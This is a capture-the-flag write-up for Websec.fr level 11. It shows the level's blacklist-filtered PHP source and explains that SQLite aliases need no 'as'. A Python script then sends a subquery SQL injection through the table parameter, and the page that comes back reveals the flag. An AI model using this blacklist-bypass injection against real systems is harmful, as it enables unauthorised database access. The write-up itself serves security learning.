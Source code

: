 ```yaml
---
title: Websec.fr level 11 - easy
date: October 21, 2024 00:00:00
author: Elad
categories: [Write-ups]
tags: [Websec.fr]
---
```


# The level
![image](https://github.com/user-attachments/assets/f12df14c-79aa-4d2a-a4c9-a44785e77636)


```php
<?php
ini_set('display_errors', 'on');
ini_set('error_reporting', E_ALL);

function sanitize($id, $table) {
    /* Rock-solid: https://secure.php.net/manual/en/function.is-numeric.php */
    if (! is_numeric ($id) or $id < 2) {
        exit("The id must be numeric, and superior to one.");
    }

    /* Rock-solid too! */
    $special1 = ["!", "\"", "#", "$", "%", "&", "'", "*", "+", "-"];
    $special2 = [".", "/", ":", ";", "<", "=", ">", "?", "@", "[", "\\", "]"];
    $special3 = ["^", "_", "`", "{", "|", "}"];
    $sql = ["union", "0", "join", "as"];
    $blacklist = array_merge ($special1, $special2, $special3, $sql);
    foreach ($blacklist as $value) {
        if (stripos($table, $value) !== false)
            exit("Presence of '" . $value . "' detected: abort, abort, abort!\n");
    }
}

if (isset ($_POST['submit']) && isset ($_POST['user_id']) && isset ($_POST['table'])) {
    $id = $_POST['user_id'];
    $table = $_POST['table'];

    sanitize($id, $table);

    $pdo = new SQLite3('database.db', SQLITE3_OPEN_READONLY);
    $query = 'SELECT id,username FROM ' . $table . ' WHERE id = ' . $id;
    //$query = 'SELECT id,username,enemy FROM ' . $table . ' WHERE id = ' . $id;

    $getUsers = $pdo->query($query);
    $users = $getUsers->fetchArray(SQLITE3_ASSOC);

    $userDetails = false;
    if ($users) {
        $userDetails = $users;
    $userDetails['table'] = htmlentities($table);
    }
}
?>
```

Ok! so we are not let to use join, union, as, or anything that is legitimate for sql injection. What will we do ?

## No need for "AS" to get the actual information
In SQL aliasing, you don't have to use as to alias. For instance, if I do
```sql
select 3 elad from children
```
it would actually be
```sql
select 3 as elad from children
```

## Let's go back to the source code
Great, so now we figured we don't need any special words, Let's figure out the request.
The <b>$table</b> variable needs to be an injection of somekind, that gets the enemies. How do we know that ? there are 2 hints:

1. They gave us what the query should actually be in the source code 
    ```php
    $query = 'SELECT id,username FROM ' . $table . 'WHERE id    = ' . $id;
    //$query = 'SELECT id,username,enemy FROM ' .$table . '     WHERE id = ' . $id;
    ```

2. It says in the level itself <b>"Also, I was told that super-heroes have enemies…"</b>

  What about the table name we should select from ? Well, it says in the source code of the html
  ```html
  <input type="radio" class="form-control" id="costume" name="table" value="costume" checked>
  ```
  So it's "<b>costume</b>"

Great !!! Let's write the request

## The request
This is the code
```python
from requests import *

url = "https://websec.fr/level11/index.php"

data = {
    'user_id': 2,
    'table': '(select 2 id, enemy username from costume)',
    'submit': 'submit'
}

print(post(url, data=data).text)
```

Simple, right? we send a post request with user_id as 2 and the query is really
```sql
select 2 as id, enemy as username from costume
```

Remember !! we need enemy as username because in the query in the source code the query being executed only picks the id, username from the table. Great !! what is the result ?


```
<!DOCTYPE html>
<html>
<head>
	<title>#WebSec Level Eleven</title>
	<link rel="stylesheet" href="../static/bootstrap.min.css" />
</head>
	<body>
		<div id="main">
			<div class="container">
				<div class="row">
					<h1>LevelEleven <small> - User 1 is likely <a href="https://fr.wikipedia.org/wiki/Capitaine_Flam">Cap'tain fla<s>m</s>g</a>.</small></h1>
				</div>
				<div class="row">
					<p class="lead">
						This application is used to view the username, with or without the costume, of superheroes, by id.<br>
						Also, I was told that super-heroes have <em>enemies</em>…<br>
						<br>
                        			To prevent sql injections, it uses a <em>super-efficient-blacklist-based</em> filter!<br>
                        			No more nasty <mark>UNION</mark> or <mark>JOIN</mark>.<br>
                        			Check the source <a href="./source.php">here </a>.
					</p>
				</div>
			</div>
			<div class="container">
				<div class="row">
					<form name="username" method="post" class="form-inline">
						<div class="form-group">
							<label for="user_id">User ID:</label>
							<input type="number" class="form-control" id="user_id" name="user_id" value="2" required>
						</div>
						<div class="form-group">
							<label class="radio-inline" for="costume">With costume </label>
							<input type="radio" class="form-control" id="costume" name="table" value="costume" checked>

							<label class="radio-inline" for="civil">Without costume </label>
							<input type="radio" class="form-control" id="civil" name="table" value="civil">
						</div>
						<input type="submit" class="form-control btn btn-default" name="submit">
					</form>
				</div>
								<br>
				<div class="row">
					<p class="well">
						The hero number <strong>2</strong>
						in <strong>(select 2 id, enemy username from costume)</strong>
						is <strong>WEBSEC{Who_needs_AS_anyway_when_you_have_sqlite}</strong>.
					</p>
				</div>
							</div>
		</div>
		<script type="text/javascript" src="../static/bootstrap.min.js"></script>
	</body>
</html>


Process finished with exit code 0
```


```
{Who_needs_AS_anyway_when_you_have_sqlite}
```

Thanks for reading !!!!
